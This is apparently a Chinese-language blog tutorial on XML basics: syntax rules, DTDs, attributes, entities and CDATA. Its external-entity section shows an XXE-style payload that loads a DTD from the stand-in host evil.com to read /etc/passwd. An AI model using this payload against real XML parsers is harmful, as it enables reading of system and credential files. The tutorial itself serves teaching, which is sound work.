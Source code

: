 +++
date = "2016-05-25T13:59:59+08:00"
description = ""
draft = false
tags = ["xml"]
title = "XML基础"
topics = ["Other"]

+++

### 0x00 XML简介
1、xml的设计宗旨是传输数据，而并非显示数据  
2、xms是不作为的，它被设计用来结构化、存储以及传输信息  
3、xml只是纯文本，独立于软硬件和应用程序  
4、xml可供任何软硬设备读取数据  
5、xml可以自定义标签  
6、xml具有自我描述性  
7、xml是对html的补充  
8、xml常用于简化数据的存储和共享  

### 0x01 XML语法规则
1、所有元素必有闭合标签  
2、标签对大小写敏感  
3、必须正确的嵌套  
4、XML必须有根元素，根节点可以有子节点  
5、XML的属性值必须加引号(能用子元素的就用子元素代替属性)  
6、空格会被保留  
7、XML以LF存储换行  
8、注释使用```<!--   -->```  
9、实体引用  
```html
&lt;  <   小于
&gt;  >   大于
&amp;   &   和号
&apos;  '   单引号
&quot;  "   引号
```

### 0x02 XML格式
```
<?xml version="1.0" encoding="utf-8"?>  <!--xml声明-->

<!--文档类型定义-->
<!DOCTYPE note [
  <!ELEMENT note (to,from,heading,body)>
  <!ELEMENT to       (#PCDATA)> <!-- 定义to标签中元素的类型　-->
  <!ELEMENT from     (#PCDATA)>
  <!ELEMENT heading  (#PCDATA)>
  <!ELEMENT body     (#PCDATA)>
]>

<!--文档元素-->
<note>
  <to>Tom</to>
  <from>John</from>
  <heading>Reminder</heading>
  <body>Hi,I’am John</body>
</note>
```

### 0x03 XML示例
例子一：John给George的便签
```
<?xml version="1.0" encoding="UTF-8"?>
<note>   <!-- 根元素 -->
  <to>George</to>
  <from>John</from>
  <heading>Reminder</heading>
  <body>Don't forget the meeting!</body>
</note>
```

例子二：传输数据
```
<?xml version="1.0" encoding="UTF-8"?>
<books>
  <book>
    <name>Python黑帽子</name>
    <date>2015</date>
    <price>37￥</price>
    <description>
      用python写一些程序
    </description>
  </book>
  <book>
  <name>Web安全深度剖析</name>
  <date>2014</date>
  <price>39￥</price>
  <description>
    讲述web渗透的基础知识
  </description>
</books>
```

### 0x04 XML属性
对于xml要尽量避免使用属性，作为数据的都尽量使用标签，作为标识的可以作为属性，  
下面两种xml文档包含信息相同，但是推荐第二种
```
<?xml version="1.0" encoding="UTF-8"?>
<messages date="28/08/2008">
  <note id="501"> <!-- ID仅仅是一个标识符，用于标识不同的便签。-->
    <to>George</to>
    <from>John</from>
    <heading>Reminder</heading>
    <body>Don't forget the meeting!</body>
  </note>
  <note id="502">
    <to>John</to>
    <from>George</from>
    <heading>Re: Reminder</heading>
    <body>I will not</body>
  </note> 
</messages>
```
```
<?xml version="1.0" encoding="UTF-8"?>
<messages>
  <date>28/08/2008</date> <!-- date作为数据，所以写入到标签中 -->
  <note id="501">
    <to>George</to>
    <from>John</from>
    <heading>Reminder</heading>
    <body>Don't forget the meeting!</body>
  </note>
  <note id="502">
    <to>John</to>
    <from>George</from>
    <heading>Re: Reminder</heading>
    <body>I will not</body>
  </note> 
</messages>
```

### 0x05 使用实体
实体是用于定义引用普通文本或特殊字符的快捷方式的变量，实体可在内部或外部进行声明。  
XML实体分为四种：字符实体，命名实体，外部实体，参数实体。  
可以利用DTD来内部或外部引入实体，DTT基本格式：<!DOCTYPE 根元素名 [  元素描述   ]>

* 内部引入

格式：```<!ENTITY 实体名称 "实体的值">```
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
    <!ENTITY abc "Hello World!">
]>
<root>
    &abc;
</root>
```

* 外部引入

格式：```<!ENTITY 实体名称 SYSTEM "URI">```

evil.dtd中的内容为```<!ENTITY b SYSTEM "file:///etc/passwd">```
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
    <!ENTITY a SYSTEM "http://evil.com/evil.dtd">
]>
<root>
    &b;
</root>
```

### 0x06　CDATA
在 XML 元素中，"<" 和 "&" 是非法的。  
"<" 会产生错误，因为解析器会把该字符解释为新元素的开始。  
"&" 也会产生错误，因为解析器会把该字符解释为字符实体的开始。  
为了避免错误，可以将脚本代码定义为CDATA，CDATA部分中的所有内容都会被解析器忽略。

```
<![CDATA[ <script>alert("test");</script> ]]>
```
